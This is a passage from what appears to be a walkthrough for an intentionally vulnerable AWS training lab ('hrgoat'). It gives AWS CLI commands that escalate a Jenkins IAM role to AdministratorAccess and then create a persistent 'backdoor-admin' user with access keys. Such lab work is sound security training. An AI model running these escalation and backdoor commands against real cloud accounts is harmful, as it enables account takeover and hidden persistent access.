 Fetch roles and credentials, and analyze the permissions with the previous script.
<img width="1706" height="794" alt="image" src="https://github.com/user-attachments/assets/edd9c51e-f342-4a34-87a0-37e43caf14fa" />

---

## 🎯 Step 10: Escalating to Administrator

We find that `hrgoat-jenkins-role` has IAM modification permissions. 
<img width="1706" height="794" alt="image" src="https://github.com/user-attachments/assets/32cf8865-a1d5-4ea9-8ed1-6202bc1da743" />


Let’s exploit it, make sure to use the appropriate region:
```bash
aws iam attach-role-policy --role-name 'hrgoat-jenkins-role-us-east-1' --policy-arn 'arn:aws:iam::aws:policy/AdministratorAccess'
```
![image](https://github.com/user-attachments/assets/a7a8846e-78ee-4e7f-84c8-f791b4aa5797)

Check if it worked:
```bash
aws iam list-attached-role-policies --role-name hrgoat-jenkins-role
aws iam list-users
```
![image](https://github.com/user-attachments/assets/dbb2a40f-ea9c-4cd3-86ab-ba110ecc8b8b)

We have admin rights! 🏆

---

## 🚪 Step 11: Planting a Persistent Admin User

Let’s create a backdoor admin:
```bash
aws iam create-user --user-name backdoor-admin
aws iam create-access-key --user-name backdoor-admin
aws iam attach-user-policy --user-name backdoor-admin --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam list-attached-user-policies --user-name backdoor-admin
```
### Create New User
![image](https://github.com/user-attachments/assets/18bb0ec6-09a2-4c62-9bf2-3e5d48e5da1e)

### Create User Access Key
![image](https://github.com/user-attachments/assets/28029293-8b4e-4afe-b60d-cdc5b7c3b677)

### Assign permissions and verify it worked
 ![image](https://github.com/user-attachments/assets/c53dc66b-333e-40e3-9af5-004cc4eab627)


Success! Now, full control of the AWS environment is ours.

---
